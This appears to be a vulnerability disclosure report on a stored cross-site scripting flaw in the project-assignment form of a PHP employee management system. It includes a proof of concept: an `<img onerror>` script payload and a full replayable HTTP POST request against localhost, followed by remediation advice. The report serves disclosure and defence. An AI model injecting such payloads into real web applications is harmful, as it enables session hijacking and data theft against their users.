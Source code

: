 # Stored XSS Vulnerability in Project Assignment Report

### Title: Stored XSS Vulnerability in Project Assignment
### Affected Component: /process/assignp.php
### CWE: CWE-79 (Improper Neutralization of Input During Web Page Generation)
### CVSS Base Score:  6.8 (Self-rated with the assistance of an online CVSS calculator)

### Impact:
The web application is vulnerable to stored cross-site scripting (XSS) attacks within the project assignment functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "pname" parameter, which is used to assign project names. When unsuspecting users view the assigned project names, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the stored XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "pname" parameter while assigning a project. For example, submitting the payload `<img src=x onerror=alert(1)>` as the project name triggers an alert box when viewed by other users. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```http
POST /process/assignp.php HTTP/1.1
Host: localhost:8080
Content-Length: 366
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://localhost:8080///assign.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="eid"

648309
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="pname"

<img src=x onerror=alert(1)>
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="duedate"

2024-02-09
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB--
```

### Proof with Screenshot:
![XSS Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/SOURCECODESTER%20EMPLOYEE%20MANAGEMENT%20SYSTEM/XSS%20Vulnerability%20in%20Project%20Assignment%20Report.png?raw=true)

### Remediation:
To mitigate the XSS vulnerability, the application should implement proper input validation and output encoding techniques to sanitize user-supplied data before rendering it in the application's responses. Specifically, the "pname" parameter should be sanitized to ensure that it does not contain any executable code. Additionally, implementing content security policies (CSP) and regularly auditing the application's codebase for security vulnerabilities can further enhance its resilience against XSS attacks.
